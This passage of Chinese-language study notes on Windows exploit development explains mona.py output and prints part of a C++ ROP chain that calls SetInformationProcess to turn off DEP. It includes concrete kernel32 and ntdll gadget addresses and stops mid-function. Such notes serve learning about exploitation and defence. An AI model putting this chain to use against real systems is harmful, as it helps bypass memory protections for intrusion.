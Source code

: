 

解读charins文件，当出现以下情况时，证明没找到。因为默认是找主模块的

-   ![img](./notesimg/1638452510910-f7d9b248-e9d2-4c61-841f-3865a1ee0c3d.png)



修改内存属性解析

```c++
int create_rop_chain(unsigned int *buf, unsigned int )
  {
    // rop chain generated with mona.py - www.corelan.be
    unsigned int rop_gadgets[] = {
      //[---INFO:gadgets_to_set_ebp:---]
      0x7606772d,  // POP EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x760a1e20,  // ptr to &SetInformationProcess() [IAT KERNEL32.DLL] ** REBASED ** ASLR
      0x779db640,  // MOV EBP,DWORD PTR DS:[EAX] // RETN [ntdll.dll] ** REBASED ** ASLR 
      //[---INFO:gadgets_to_set_edx:---]
      0x7603e712,  // POP EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0xffffffde,  // Value to negate, will become 0x00000022
      0x76069c08,  // NEG EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x77aacf20,  // XCHG EAX,EDX // RETN [ntdll.dll] ** REBASED ** ASLR 
      //[---INFO:gadgets_to_set_ecx:---]
      0x77a17e05,  // POP ECX // RETN [ntdll.dll] ** REBASED ** ASLR 
      0x76020212,  // &0x00000002 [KERNEL32.DLL]
      //[---INFO:gadgets_to_set_ebx:---]
      0x77a0928a,  // POP EBX // RETN [ntdll.dll] ** REBASED ** ASLR 
      0xffffffff,  // 0xffffffff-> ebx
      //[---INFO:gadgets_to_set_eax:---]
      0x76085012,  // POP EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0xfffffffc,  // Value to negate, will become 0x00000004
      0x76069c08,  // NEG EAX // RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      //[---INFO:gadgets_to_set_edi:---]
      0x77a8c77e,  // POP EDI // RETN [ntdll.dll] ** REBASED ** ASLR 
      0x77a8c77e,  // skip 4 bytes [ntdll.dll] ** REBASED ** ASLR
      //[---INFO:pushad:---]  
      //所有寄存器入栈,顺序是固定的,把所有参数放到寄存器,早pushad一次性入栈
      0x779d9519,  // PUSHAD // RETN [ntdll.dll] ** REBASED ** ASLR 
    };
    if(buf != NULL) {
```